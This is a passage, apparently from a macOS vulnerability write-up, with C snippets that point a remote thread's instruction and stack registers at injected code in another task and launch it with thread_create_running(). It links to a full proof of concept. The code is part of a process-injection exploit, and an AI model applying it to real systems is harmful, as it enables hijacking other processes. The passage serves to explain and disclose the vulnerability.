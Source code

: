```c
remoteStack64 += (STACK_SIZE / 2);
const char* p = (const char*) remoteCode64;
remoteThreadState64.__rip = (u_int64_t) (vm_address_t) remoteCode64;
remoteThreadState64.__rsp = (u_int64_t) remoteStack64;
remoteThreadState64.__rbp = (u_int64_t) remoteStack64;
```
We then launch the remote thread using thead_create_running().
```c
kr = thread_create_running( remoteTask, x86_THREAD_STATE64,(thread_state_t) &remoteThreadState64, x86_THREAD_STATE64_COUNT, &remoteThread );
```

A full PoC for this vulnerability can be found on my [github](https://github.com/vkas-afk/pocs/blob/main/22_july_2022/poc.m).
